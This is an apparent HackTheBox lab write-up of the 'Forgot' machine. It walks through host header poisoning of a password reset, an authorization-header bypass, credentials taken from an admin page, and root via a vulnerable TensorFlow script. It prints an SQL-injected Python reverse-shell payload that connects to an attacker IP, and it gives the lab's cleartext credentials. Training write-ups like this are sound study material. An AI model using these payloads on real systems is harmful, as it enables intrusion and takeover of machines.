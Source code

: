 ```yaml
---
title: (HTB) - Forgot
author:
  name: eng4ge
  link: https://github.com/an9k0r
date: 2023-03-03 09:33:00 +0100
categories: [HackTheBox, Linux]
tags: [Web, Vulnerability Assessment, Injection, Source Code Analysis, Outdated Software, Flask, Werkzeug, Authentication bypass, Clear Text Credentials, Host Header Injection, Code Injection]
math: true
mermaid: true
image:
  src: /assets/images/9affd781c0cee054aa18bf5112e0027c6ab7757ce98b6efe6b14c19d8956ee9f.png
  width: 694
  height: 515
  alt: image alternative text
---
```

**Forgot is an intermediate box which start with few basic web application misconfigurations. Box runs vulnerable tensorflow python package in a script which is run as sudo/root**

# Enumeration
## NMAP
```
Nmap scan report for 10.129.249.130
Host is up (0.042s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http
|_http-title: Login
```
## Website

### Finding username in the source code
If we check th source then we'd find a user `robert-dev-14320`. 

![picture 14](/assets/images/79659cc4a185aaf5526b701463401fd475c875fcf73698bdae98068f0d236c83.png)  

We cannot guess the password or brute-force it as caching and responses make the wait completely unbearable, but there is `forgot` password present so let's check that.

# Initial Foothold - digging deeper
## Host Header Poisoning on forgot password

It appears that we can poison host header which makes the webserver to issue an request (HTTP!) to our own server

![picture 15](/assets/images/82198bf3a26e5838a955a363a355331680be92fa598318bf4e57e658c3cdffcc.png)  

We can set a new password for `robert-dev-14320` and access the Support Portal. Be patient and make sure you URL encode your token!

![picture 16](/assets/images/17fcf5c3a88d4b510e242f18dc6049cdb56714033778665cda9334b43baa892b.png)  

## Getting onto Admin Panel

We can find admin's dashboards if we check the site map. 

![picture 18](/assets/images/1ae220da951d31f9a19f8e6011dd1ac3b0c2e82de926e6b0c4c65e2f6a85b5bc.png)  

If we however try to access it with `robert-dev-14320` we'd be redirected to denied page.

![picture 17](/assets/images/b88273c950304b03006e265179a2275fa2cfdcceede46a623a4bc3ec1d1f3a92.png)  

Good thing is that we can tamper the authorization header without having the right password as apparently only user will be checked.

![picture 19](/assets/images/0587aa7a80b40bdfb5ee3b6ca4f2e84571efd8c816a37a3ce26b217a3ff35479.png)  

## Finding Diego's credentials

If we check the response in Burp of the request above to `admin_tickets` we'd find diego's password.

![picture 20](/assets/images/d9db1711bfe1510fc7361d55e82fd9264f6d61da0625e6fbb5402b7c82df352b.png)  

Credentials work with SSH `diego:dCb#1!x0%gjq`.

![picture 21](/assets/images/f290ba645ac54fc410bb4cdacc4bd0b6a46e3b854207297a3e3ca8bae5533f5c.png)  

# Privilege Escalation

We can run script as sudo

```
diego@forgot:~$ sudo -l
Matching Defaults entries for diego on forgot:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User diego may run the following commands on forgot:
    (ALL) NOPASSWD: /opt/security/ml_security.py
```

## Tensorflow Vulnerability

If we check the `/opt/security/ml_security.py` we'll find the tensorflow import.

```python
#!/usr/bin/python3
import sys
import csv
...
from urllib.parse import unquote
from sklearn import model_selection
from nltk.tokenize import word_tokenize
from sklearn.linear_model import LogisticRegression
from gensim.models.doc2vec import Doc2Vec, TaggedDocument
from tensorflow.python.tools.saved_model_cli import preprocess_input_exprs_arg_string
...
```

We can check `tensorflow`'s version:

```
diego@forgot:~$ pip3 show tensorflow | grep Version
Version: 2.6.3
```

This version of Tensorflows is vulnerable to Remote Code Execution.  References:

- https://security.snyk.io/vuln/SNYK-PYTHON-TENSORFLOW-2841408
- https://github.com/advisories/GHSA-75c9-jrh4-79mc

![picture 22](/assets/images/382cfd1bd771229b94241a362d97a1a7e89ec25ffa8c8c6a4045f087bfd68f10.png)  

Script `/opt/security/ml_security.py` loads input from `escalate` table.

![picture 24](/assets/images/5579be613ad59792613078d48ae060aa66324dcf2557bc12c23a6dc61f620ddd.png)  

`reason` column in `escalate` table (`app` database) resides on 4th position. 

```
diego@forgot:~$ mysql -u diego -p'dCb#1!x0%gjq' -D app -e "show columns from escalate;"
mysql: [Warning] Using a password on the command line interface can be insecure.
+--------+------+------+-----+---------+-------+
| Field  | Type | Null | Key | Default | Extra |
+--------+------+------+-----+---------+-------+
| user   | text | YES  |     | NULL    |       |
| issue  | text | YES  |     | NULL    |       |
| link   | text | YES  |     | NULL    |       |
| reason | text | YES  |     | NULL    |       |
+--------+------+------+-----+---------+-------+
```

The vulnerability is pretty trivial to exploit if we check the PoC: https://github.com/advisories/GHSA-75c9-jrh4-79mc

We just have to keep in mind that we need to inject our payload into reason column:

```sql
insert into escalate values ("user","issue","link",'hello=exec("""\nimport socket\nimport subprocess\ns=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\ns.connect(("10.10.14.52",5555))\nsubprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())""")');
```

Run `sudo /opt/security/ml_security.py` and shell should pop as root. (For the payload above, listener has to be started beforehand on the attackers machine!)

![picture 23](/assets/images/0dc38029c16caa637ea0bc7188eaa4892666e5e8d23f9966c8bd9e4f5faa069f.png)  
